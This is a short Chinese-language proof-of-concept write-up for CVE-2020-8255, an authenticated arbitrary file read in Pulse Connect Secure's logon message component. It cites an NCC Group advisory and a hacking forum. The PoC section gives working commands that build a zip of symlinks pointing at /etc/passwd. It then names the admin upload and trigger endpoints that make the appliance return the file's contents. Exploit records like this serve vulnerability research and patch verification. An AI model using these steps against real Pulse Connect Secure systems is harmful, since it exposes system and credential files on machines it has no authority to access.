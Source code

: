 # CVE-2020-8255 Pulse Connect Secure通过登录消息组件实现任意文件读取

概述：

Pulse Connect Secure在登录前/后消息组件中存在任意文件读取漏洞。经过身份验证的管理用户可以利用此漏洞从底层操作系统读取任意文件。

PoC：


```bash
首先创建en.txt和default.txt文件：
ln -s /etc/passwd default.txt
ln -s /etc/passwd en.txt
使用--symlinks选项压缩文件：
zip --symlinks logon.zip default.txt en.txt
adding: default.txt (stored 0%)
adding: en.txt (stored 0%)
```

通过/dana-admin/auth/signinNotif.cgi页面上传zip包，最后通过/dana-admin/auth/signinPolicy.cgi触发任意文件读取。

media/16097309753555/16097310084538.jpg)


ref：

https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-arbitrary-file-read-via-logon-message-cve-2020-8255/

https://forum.ywhack.com/thread-114616-1-6.html